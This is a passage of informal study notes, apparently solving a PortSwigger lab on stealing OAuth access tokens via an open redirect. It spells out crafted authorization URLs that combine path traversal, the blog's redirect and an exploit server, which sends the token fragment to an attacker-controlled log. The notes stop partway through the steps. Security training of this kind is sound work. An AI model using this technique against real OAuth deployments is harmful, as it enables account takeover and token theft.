 
    https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE



# ***4. Lab: Stealing OAuth access tokens via an open redirect***
https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner. 

study site. observe open redirect on blog pages "next page" links:
GET /post/next?path=/post?postId=9 HTTP/1.1

part 1 - extracton method 

find:
travesal location
API location
steal token via accesss log (with script to make it visible)

three links in the script are:

**1st**
authentication initialization while assigning the address for the response:
https://oauth-ac091f821fd0471ac088e8a2022f0013.web-security-academy.net/auth?client_id=a388sx5v6gxa1pdywvj38&redirect_uri=

**2nd**
redirecting from whitelisted domain to attacker controlled URL using blog's next path feature + path traversl method:
https://acdd1f361f3c4746c0d4e8ba002d00b2.web-security-academy.net/oauth-callback/../post/next?path=

**3rd**
link to the exploit location:
https://exploit-ac991fef1f8f4782c0c3e884011800de.web-security-academy.net/exploit
dna the rest of the 1st adress:
&response_type=token&nonce=373179658&scope=openid%20profile%20email

**format:**

{1st link.. redirect uri={2n link?path={2rd link}} 1st link ending}

this leaks the token via fragment in the URI
when victims returns back to the malicious link (window.location.hash = True)
the script extracts the hash from the URI and sends it as a GET parameter to finalize the leak


1.
https://oauth-0adb00460487a6c3c0392e5f02110022.web-security-academy.net/auth?client_id=do56u1zrsd8zhv08oimzq&redirect_uri=https://0a1a000f047ca6e6c0762eaf00c6002e.web-security-academy.net/oauth-callback&response_type=token&nonce=884658517&scope=openid%20profile%20email

2.
    whitelisted url + 
    https://0a1a000f047ca6e6c0762eaf00c6002e.web-security-academy.net/oauth-callback
    travesal to open redirect/../post/next?path=
